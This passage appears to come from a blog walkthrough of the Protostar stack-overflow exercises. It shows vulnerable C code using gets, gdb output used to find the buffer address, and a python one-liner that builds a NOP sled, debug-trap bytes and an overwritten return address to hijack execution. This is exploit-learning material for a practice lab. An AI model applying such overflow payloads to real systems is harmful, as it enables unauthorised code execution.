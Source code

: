 What happened here? Well, we overwrote so much of the stack that it kept returning to the
`win` function. If we only add 4 copies of the address at the end of the payload we get one 
print out and a SIGSEV. This is because EIP is 0. If we want to be clean, we could also 
overwrite that with a valid return address by appending it to payload. For the purposes of
what this exercise is supposed to demonstrate, I'm satisfied with the outcome for
the purpose of this post. If you feel like it, try to make it exit cleanly.

# Stack 05 #
> Stack5 is a standard buffer overflow, this time introducing shellcode.

{{< highlight C >}}
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
{{< / highlight >}}
 
Shellcode time! Actually, I'm not actually going to use a real shell code, I'm
going to use the debug trap instruction `\xcc` to make sure it works. Running 
actual shellcode will be an exercise for the reader.

What we need to do however is put our shellcode into buffer, then write the address
of buffer into EIP, so that after the `gets`, the next instruction is the start of
the shell code. This is a bit of a hit an miss exercise due to the fact that we 
get the address of `buffer` from within gdb. This causes a sligh shift in address locations
when run outside of gdb, but we'll offset the actual address, give ourselves an
adequate nop sled and get the job done. We'll know we've hit our target when we
see `Trace/breakpoint trap` in the output.

Using gdb to get the address of `buffer`:
{{< highlight console >}}
(gdb) break main
Breakpoint 1 at 0x80483cd: file stack5/stack5.c, line 10.
(gdb) r
Starting program: /opt/protostar/bin/stack5

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:10
10      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/x buffer
0xbffff7d8:     0bffff87c
(gdb)
{{< / highlight >}}

So `buffer` will be somewhere before `0xbffff7d8`. I went for `0xbffff7cc`.
Generate the overflow:
{{< highlight console >}}
protostar:/opt/protostar/bin$ python -c 'print "\x90"*30+"\xcc"*34'+"\xcc\xf7\xff\xbf"' > /tmp/stack5data
protostar:/opt/protostar/bin$ ./stack5 < /tmp/stack5data
Trace/breakpoint trap
{{< / highlight >}}
